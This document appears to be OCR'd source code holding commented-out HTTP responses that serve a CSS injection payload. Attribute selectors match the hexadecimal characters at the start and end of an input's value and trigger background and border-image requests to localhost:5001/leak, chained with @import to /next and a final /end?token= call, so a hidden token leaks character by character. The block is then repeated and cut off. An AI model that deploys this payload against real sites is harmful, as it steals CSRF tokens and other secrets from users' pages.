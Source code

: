 ```
/*
HTTP/1.1 200 OK
Content-Type: text/css
Date: Fri, 01 Apr 2022 14:35:39 GMT
Connection: close
Content-Length: 2149

@import url(http://localhost:5001/next?0.7834603960990516);
input[value$="0"]{--e0:url(http://localhost:5001/leak?post=0)}
input[value$="1"]{--e0:url(http://localhost:5001/leak?post=1)}
input[value$="2"]{--e0:url(http://localhost:5001/leak?post=2)}
input[value$="3"]{--e0:url(http://localhost:5001/leak?post=3)}
input[value$="4"]{--e0:url(http://localhost:5001/leak?post=4)}
input[value$="5"]{--e0:url(http://localhost:5001/leak?post=5)}
input[value$="6"]{--e0:url(http://localhost:5001/leak?post=6)}
input[value$="7"]{--e0:url(http://localhost:5001/leak?post=7)}
input[value$="8"]{--e0:url(http://localhost:5001/leak?post=8)}
input[value$="9"]{--e0:url(http://localhost:5001/leak?post=9)}
input[value$="a"]{--e0:url(http://localhost:5001/leak?post=a)}
input[value$="b"]{--e0:url(http://localhost:5001/leak?post=b)}
input[value$="c"]{--e0:url(http://localhost:5001/leak?post=c)}
input[value$="d"]{--e0:url(http://localhost:5001/leak?post=d)}
input[value$="e"]{--e0:url(http://localhost:5001/leak?post=e)}
input[value$="f"]{--e0:url(http://localhost:5001/leak?post=f)}
input{background:var(--e0)}
input[value^="0"]{--s0:url(http://localhost:5001/leak?pre=0)}
input[value^="1"]{--s0:url(http://localhost:5001/leak?pre=1)}
input[value^="2"]{--s0:url(http://localhost:5001/leak?pre=2)}
input[value^="3"]{--s0:url(http://localhost:5001/leak?pre=3)}
input[value^="4"]{--s0:url(http://localhost:5001/leak?pre=4)}
input[value^="5"]{--s0:url(http://localhost:5001/leak?pre=5)}
input[value^="6"]{--s0:url(http://localhost:5001/leak?pre=6)}
input[value^="7"]{--s0:url(http://localhost:5001/leak?pre=7)}
input[value^="8"]{--s0:url(http://localhost:5001/leak?pre=8)}
input[value^="9"]{--s0:url(http://localhost:5001/leak?pre=9)}
input[value^="a"]{--s0:url(http://localhost:5001/leak?pre=a)}
input[value^="b"]{--s0:url(http://localhost:5001/leak?pre=b)}
input[value^="c"]{--s0:url(http://localhost:5001/leak?pre=c)}
input[value^="d"]{--s0:url(http://localhost:5001/leak?pre=d)}
input[value^="e"]{--s0:url(http://localhost:5001/leak?pre=e)}
input[value^="f"]{--s0:url(http://localhost:5001/leak?pre=f)}
input{border-image:var(--s0)}
input[value=]{list-style:url(http://localhost:5001/end?token=&)};
*/

/*
HTTP/1.1 200 OK
Content-Type: text/css
Date: Fri, 01 Apr 2022 14:35:39 GMT
Connection: close
Content-Length: 2149

@import url(http://localhost:5001/next?0.7834603960990516);
input[value$="0"]{--e0:url(http://localhost:5001/leak?post=0)}
input[value$="1"]{--e0:url(http://localhost:5001/leak?post=1)}
input[value$="2"]{--e0:url(http://localhost:5001/leak?post=2)}
input[value$="3"]{--e0:url(http://localhost:5001/leak?post=3)}
input[value$="4"]{--e0:url(http://localhost:5001/leak?post=4)}
input[value$="5"]{--e0:url(http://localhost:5001/leak?post=5)}
input[value$="6"]{--e0:url(http://localhost:5001/leak?post=6)}
input[value$="7"]{--e0:url(http://localhost:5001/leak?post=7)}
input[value$="8"]{--e0:url(http://localhost:5001/leak?post=8)}
input[value$="9"]{--e0:url(http://localhost:5001/leak?post=9)}
```